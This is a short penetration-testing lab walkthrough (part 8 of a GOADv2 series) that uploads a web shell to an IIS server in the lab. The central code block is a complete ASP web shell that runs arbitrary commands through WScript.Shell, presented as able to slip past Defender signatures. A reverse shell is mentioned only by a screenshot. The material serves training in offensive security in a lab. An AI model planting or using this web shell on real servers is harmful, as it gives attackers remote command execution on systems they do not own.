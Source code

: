 > [!NOTE]
> Original post can be found here:
> https://mayfly277.github.io/posts/GOADv2-pwning-part8/


In the previous post Part 7 we tried some attacks with MSSQL on the domain. This time we will get a web shell on IIS and try some privilege escalation techniques.

## IIS - webshell

- There is a simple asp.net application on http://192.168.56.22/, this application only give us a simple file upload functionality.

- From there we can upload a basic webshell in asp : webshell.asp (at the time of writing, this avoid defender signature)

```asp
<%
Function getResult(theParam)
    Dim objSh, objResult
    Set objSh = CreateObject("WScript.Shell")
    Set objResult = objSh.exec(theParam)
    getResult = objResult.StdOut.ReadAll
end Function
%>
<HTML>
    <BODY>
        Enter command:
            <FORM action="" method="POST">
                <input type="text" name="param" size=45 value="<%= myValue %>">
                <input type="submit" value="Run">
            </FORM>
            <p>
        Result :
        <% 
        myValue = request("param")
        thisDir = getResult("cmd /c" & myValue)
        Response.Write(thisDir)
        %>
        </p>
        <br>
    </BODY>
</HTML>
```

- The webshell is uploaded in the upload folder.
- And we have a command execution on the IIS server

- We can get a reverse shell with the same method used for mssql
![screenshot](pics/rev_shell2.png)
